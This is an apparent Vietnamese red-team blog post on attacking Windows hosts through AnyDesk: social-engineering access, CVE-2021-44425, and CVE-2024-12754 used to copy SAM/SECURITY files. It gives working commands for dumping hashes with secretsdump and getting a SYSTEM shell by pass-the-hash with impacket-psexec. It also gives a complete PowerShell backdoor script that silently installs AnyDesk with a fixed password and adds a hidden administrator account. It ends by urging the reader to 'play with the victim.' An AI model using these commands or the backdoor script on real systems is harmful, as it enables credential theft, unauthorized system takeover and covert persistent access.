








Trong thế giới an ninh mạng, công cụ hợp pháp đôi khi trở thành vũ khí nguy hiểm khi rơi vào tay kẻ tấn công. Các ứng dụng Remote Desktop như AnyDesk, TeamViewer, Windows RDP không chỉ hỗ trợ quản trị hệ thống từ xa mà còn mở ra cơ hội cho Red Team thực hiện **Lateral Movement**, Leo thang đặc quyền (**Privilege Escalation**), và Duy trì truy cập (**Persistence**).

Trong bài viết này, chúng ta sẽ đi tìm hiểu một chuỗi kịch bản tấn công sử dụng AnyDesk – từ xâm nhập ban đầu đến thiết lập duy trì kết nối lâu dài.

## **Initial Access**  

**1. Social Engineering**  
Các nhóm ransomware như **Black Basta,Lockbit,...** thường gửi hàng loạt email đăng ký newsletter hợp pháp, gây nhiễu loạn hệ thống, sau đó liên hệ qua điện thoại (vờ là bộ phận IT) để dụ nạn nhân tải AnyDesk để "khắc phục sự cố".

**2. Phishing**  
Email/website giả mạo dụ người dùng tải phiên bản AnyDesk độc hại (chứa backdoor hoặc các phiên bản cũ có dính lổ hổng bảo mật) hoặc nhập thông tin xác thực giả. Khi cài đặt thành công, attacker toàn quyền điều khiển máy nạn nhân qua giao diện AnyDesk.

**3. Lỗ hổng Phần mềm** 
Các phiên bản AnyDesk chưa vá (đặc biệt lỗi **CVE-2021-44425**) cho phép attacker khai thác để chiếm quyền truy cập trái phép.  

**4. Unattended Access**
Tính năng "truy cập không giám sát" cho phép kết nối từ xa mà không cần xác nhận của người dùng. Attacker brute-force password hoặc dùng credential rò rỉ để duy trì kết nối ngầm.  
### **🌐 CVE-2021-44425**  

Khi sử dụng tính năng tunneling, client Windows của AnyDesk mở ra một cổng lắng nghe không cần thiết trên máy thuộc LAN của kẻ tấn công. Điều này cho phép kẻ tấn công truy cập trái phép vào bộ giao thức tunneling của AnyDesk trên máy cục bộ, cũng như vào bất kỳ phần mềm nào trên máy đích từ xa đang lắng nghe qua cổng được tunnel.

**Kịch bản Tấn công:**  
- **Bối cảnh:** Nhân viên công ty dùng AnyDesk tunnel để kết nối máy chủ nội bộ từ quán cà phê.  
- **Lỗi Binding TCP:** AnyDesk mặc định bind tunnel qua **0.0.0.0** (tất cả interface), kẻ tấn công cùng mạng Wi-Fi có thể:  
  - **Chiếm quyền Truy cập:** Khai thác cổng mạng bị lộ để tấn công dịch vụ nội bộ.  
  - **Leo thang Đe dọa:** Xâm nhập sâu vào mạng "an toàn", đánh cắp dữ liệu nhạy cảm qua kênh tunnel.  

**Hệ lụy:**  
- Dịch vụ nội bộ (database, file server) bị phơi bày trên mạng công cộng.  
- Attacker chiếm quyền điều khiển toàn bộ stack giao tiếp AnyDesk của nạn nhân.  

## Privilege Escalation
Ở case này chúng ta có thể tận dụng lổ hổng **CVE-2024-12754** để khai thác Local Privilege Escalation.
### **🌐 CVE-2024-12754**  
CVE-2024-12754 bắt nguồn từ cơ chế `READ/WRITE` file tùy ý của AnyDesk service, vốn chạy với quyền `NT AUTHORITY\SYSTEM`. 

Điều này đồng nghĩa với việc chúng ta có thể sao chép bất kỳ tệp nào đến một vị trí mà người dùng có đặc quyền thấp có thể truy cập, đồng thời vẫn giữ nguyên quyền sở hữu và các thiết lập quyền hạn ban đầu.

Vậy chúng ta sẽ có kịch bản tấn công như sau:
1. **Tận dụng lỗ hổng để copy file SAM/SECURITY**

Chúng ta có thể kết hợp khai thác lỗ hổng và phương pháp Shadow Copy từ mã nguồn sau: https://github.com/Wh04m1001/VSSCopy (sử dụng hàm NtQueryDirectoryObject để thực hiện việc copy) để có thể copy các file SAM/SECURITY.

> Note: **NtQueryDirectoryObject** là một hàm trong Windows Native API (NTAPI), thuộc nhóm hàm quản lý Object Manager của Windows. Hàm này cho phép truy vấn danh sách các Object Directory trong Windows Object Manager, giúp liệt kê các đối tượng hệ thống như named pipes, mutexes, events, symbolic links, shared memory, và device objects. 
```C
NTSTATUS NtQueryDirectoryObject(
  HANDLE DirectoryHandle, //Handle của Object Directory cần truy vấn.
  PVOID Buffer, //Bộ đệm chứa danh sách các đối tượng (trả về sau khi gọi hàm).
  ULONG Length, //Kích thước bộ đệm Buffer (tính bằng byte).
  BOOLEAN ReturnSingleEntry, // TRUE: Trả về một đối tượng duy nhất trong mỗi lần gọi. FALSE: Trả về danh sách đầy đủ các đối tượng có trong thư mục.
  BOOLEAN RestartScan, //TRUE: Quét lại từ đầu danh sách đối tượng. FALSE: Tiếp tục quét từ vị trí trước đó.
  PULONG Context, //Con trỏ đến vị trí quét hiện tại (giá trị sẽ được cập nhật khi quét danh sách đối tượng).
  PULONG ReturnLength //Trả về số byte thực tế được ghi vào Buffer.
);
```
Chúng ta xây dựng poc và output sau khi chạy poc của chúng ta:
2. **Trích xuất Credential:**  
Sau khi chúng ta lấy được file SAM/SECURITY, chúng ta sử dụng các công cụ như `secretsdump.py` hoặc `mimikatz` để phân tích:
   - NTLM Hash của tài khoản Administrator.
   - LSA Secrets (dữ liệu nhạy cảm trong registry).
   - Cached Credentials (thông tin đăng nhập lưu cache).
      - Ví dụ: Dùng `secretsdump` trong bộ `impacket` để trích xuất hash.
      
      Command như sau: `python .\.venv\Scripts\secretsdump.py -sam .\Result\sam -system .\Result\system LOCAL`

      Output:!
3. **Lấy shell**

Chúng ta có thể sử dụng kỹ thuật Pass The Hash để lấy **system shell**.

Sử dụng `psexec` từ bộ impacket để chạy **shell** với hash đã trích xuất được với cú pháp sau:
`impacket-psexec -hashes <LMHash>:<NTHash> <username>@<ip>`

**Kết quả:**  


Chúng ta có thể chạy shell với quyền `NT AUTHORITY\SYSTEM`. 
   

## **Persistence - Backdooring AnyDesk for Future Access**  
Chúng ta cũng có thể tận dụng AnyDesk để persistence thông qua tính năng cho phép đặt mật khẩu điều khiển từ xa.
Scripts dưới đây cho phép cài đặt AnyDesk một cách âm thầm và đặt mật khẩu để có quyền truy cập từ xa và đồng thời tạo ra một người dùng mới với các đặc quyền quản trị viên và ẩn tài khoản mới khỏi màn hình đăng nhập Windows.
```powershell
# Tải & Cài đặt AnyDesk ngầm
mkdir "C:\ProgramData\AnyDesk"
$clnt = New-Object System.Net.WebClient
$clnt.DownloadFile("http://download.anydesk.com/AnyDesk.exe", "C:\ProgramData\AnyDesk.exe")
Start-Process "C:\ProgramData\AnyDesk.exe" -ArgumentList "--install C:\ProgramData\AnyDesk --start-with=win --silent" -Wait
# Đặt mật khẩu điều khiển từ xa
Start-Process "C:\ProgramData\anydesk.exe" -ArgumentList "--set-password hacker@123" -Wait
# Tạo user ẩn với quyền Admin
net user oldadministrator "hacker#213" /add
net localgroup Administrators oldadministrator /ADD
reg add "HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\SpecialAccounts\Userlist" /v oldadministrator /t REG_DWORD /d 0 /f
```  
Bằng cách chạy đoạn script trên, Attacker có thể kết nối với target qua AnyDesk bất kỳ lúc nào. 

<h2><strong style="color: red;">Now you pwned everything!!! It’s your time to play with the victim.</strong><h2>